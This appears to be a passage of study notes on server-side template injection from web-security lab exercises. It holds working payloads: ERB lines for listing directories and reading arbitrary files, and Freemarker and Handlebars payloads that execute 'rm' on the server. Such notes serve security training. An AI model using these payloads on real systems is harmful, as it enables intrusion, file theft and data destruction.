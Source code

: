 例如，在ERB中，文档显示您可以列出所有目录，然后读取任意文件，如下所示：

`<%= Dir.entries('/') %>`

`<%= File.open('/example/arbitrary-file').read %>`

```java
lab：
JAVA Freemarker template
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```

#### Look for known exploits

一旦您能够识别正在使用的模板引擎，您应该浏览web以查找其他人可能已经发现的任何漏洞

```
lab：

{{#with "s" as |string|}}
	 {{#with "e"}}
		  {{#with split as |conslist|}}
		    {{this.pop}}
		    {{this.push (lookup string.sub "constructor")}}
		    {{this.pop}}
		    {{#with string.split as |codelist|}}
		      {{this.pop}}
		      {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
		      {{this.pop}}
		      {{#each conslist}}
		        {{#with (string.sub.apply 0 codelist)}}
		          {{this}}
		        {{/with}}
		      {{/each}}
		    {{/with}}
		  {{/with}}
		{{/with}}
{{/with}}

		
```

referer：
https://xz.aliyun.com/t/4695?page=1
exploit posted by @Zombiehelp54.

```
		wrtz{{#with "s" as |string|}}
		  {{#with "e"}}
		    {{#with split as |conslist|}}
		      {{this.pop}}
		      {{this.push (lookup string.sub "constructor")}}
		      {{this.pop}}
		      {{#with string.split as |codelist|}}
		        {{this.pop}}
		        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
		        {{this.pop}}
		        {{#each conslist}}
		          {{#with (string.sub.apply 0 codelist)}}
		            {{this}}
		          {{/with}}
		        {{/each}}
		      {{/with}}
		    {{/with}}
		  {{/with}}
		{{/with}}
```
